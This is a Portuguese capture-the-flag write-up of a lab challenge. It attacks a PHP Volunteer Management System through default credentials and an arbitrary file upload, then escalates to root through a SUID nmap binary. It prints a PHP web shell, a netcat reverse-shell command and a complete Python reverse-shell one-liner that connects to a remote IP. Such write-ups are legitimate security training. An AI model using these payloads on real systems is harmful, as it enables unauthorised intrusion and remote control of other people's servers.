 # Sistema Seguro

### Descrição
```
Você foi contratado para testar a segurança de um revolucionário sistema de colaboração entre voluntários. Será que existe algum problema nele?
```
**Pontuação**: 200
**Dica**: Não tem nenhuma ferramenta esquisita ai não?

**OBS**: O servidor mudou de IP entre algumas screenshots do write-up, mas é o mesmo ambiente

### Write-up
Ao acessar o IP utilizando um browser, nos deparamos com uma aplicação chamada "PHP Volunteer Management System"

![alt text](images/pwn200-1.png "pwn200 app")

Analisando o código-fonte, é possível extrair a versão dessa aplicação.

![alt text](images/pwn200-2.png "pwn200 app version")

Procurando por vulnerabilidades nessa aplicação no [ExploitDB](https://www.exploit-db.com) utilizando o `searchsploit`, é possível ver que existe um `Arbitrary File Upload`

![alt text](images/pwn200-3.png "pwn200 searchsploit")
![alt text](images/pwn200-4.png "pwn200 file upload info")

Porém o sistema precisa de credenciais para a vulnerabilidade poder ser explorada. Procurando sobre as credenciais padrão utilizando o google, chegamos em `admin:volunteer`

![alt text](images/pwn200-5.png "pwn200 creds")

Com as credenciais, é possível acessar o sistema

![alt text](images/pwn200-6.png "pwn200 dashboard")

Acessando a página vulnerável, podemos enviar um arquivo `shell.php` com o seguinte conteúdo

```php
<?php system($_GET['cmd']) ?>
```

![alt text](images/pwn200-7.png "pwn200 shell upload")

Segundo a descrição da vulnerabilidade, os arquivos ficam disponíveis em `mods/documents/uploads`. Adicionando o caminho na URL, chegamos em um `directory listing` que revela um arquivo PHP

![alt text](images/pwn200-8.png "pwn200 dir listing")

Acessando esse arquivo e passando um comando dentro do parâmetro GET `cmd` para teste, confirmamos que a shell foi enviada com sucesso

![alt text](images/pwn200-9.png "pwn200 passwd file")

Inicialmente tentamos abrir uma shell reverse utilizando `netcat` com o comando `nc <ip> <port> -e /bin/bash`, porém a execução de comandos do `netcat` não está habilitada. Utilizando python, obtemos sucesso em abrir uma shell reversa com o seguinte comando, retirado do [cheat sheet da PentestMonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet):

`python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`

A primeira coisa que faremos é pegar uma shell interativa  e depois tentar escalar os privilégios. Utilizando o `linuxprivchecker.py` que pode ser obtido [nesse link](https://github.com/sleventyeleven/linuxprivchecker).

![alt text](images/pwn200-10.png "pwn200 reverse shell")

Após analisar a saída do script, é possível ver uma ferramenta estranha chamada `nettool` que está com SUID ativado.

![alt text](images/pwn200-11.png "pwn200 suid")

Executando essa ferramenta, podemos ver que é uma versão desatualizada do `nmap`, que contém um vetor de escalação de privilégios bem conhecido, utilizando o modo `interactive`

![alt text](images/pwn200-12.png "pwn200 nmap")

Com a escalação de privilégios para `root`, podemos procurar a flag (que normalmente está na pasta `/root` nesse tipo de desafio). O arquivo escondido `.flag` revela a flag do desafio

![alt text](images/pwn200-13.png "pwn200 flag")
